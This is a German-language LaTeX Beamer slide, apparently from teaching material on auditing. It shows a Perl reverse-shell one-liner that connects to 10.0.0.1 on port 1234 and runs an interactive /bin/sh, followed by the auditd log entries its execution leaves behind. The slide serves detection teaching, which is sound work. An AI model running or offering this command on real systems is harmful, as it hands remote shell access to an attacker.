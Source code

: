 \documentclass[xcolor={dvipsnames},aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{Beispiel: Reverse Shell (Perl-Einzeiler)}
\begin{semiverbatim}
\tiny
{\color{orange}perl -e} 'use Socket;\$i="{}{\color{red}10.0.0.1}"{};\$p={\color{red}1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname("{}tcp"));if(connect(S,sockaddr_in(\$p,
         {\color{blue}inet_at}on(\$i))))\{open(STDIN,"{}>\&S");open(STDOUT,"{}>\&S");open(STDERR,"{}>\&S");exec("{}{\color{red}/bin/sh -i}");\};'
\end{semiverbatim}  

\emph{auditd(8)}-Log:
\tiny
\begin{semiverbatim}
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 
  a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0
  sgid=0 fsgid=0 tty=pts3 ses=3 comm="{}perl" exe="{}/usr/bin/perl" subj==unconfined key=(null)
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="{}{\color{orange}perl}" a1="{}{\color{orange}-e}" a2=75736520536F636B65743B24693D22{\color{red}31302E302E302E31}
  223B24703D{\color{red}31323334}3B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D65282274637022
  29293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C
  223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B657865632822{\color{red}2F62696E2F736820
  2D69}22293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="{}/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="{}/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 
  rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1626611363.720:348501): item=1 name="{}/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 
  rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1626611363.720:348501): item=2 name="{}/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 
  ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle={\color{orange}7065726C}00{\color{orange}2D65}0075736520536F636B65743B24693D22{\color{red}31302E302E302E3
  1}223B24703D{\color{red}31323334}3B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702
  229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C{\color{blue}696E65745F6174}

\end{semiverbatim}
\end{frame}
\end{document}
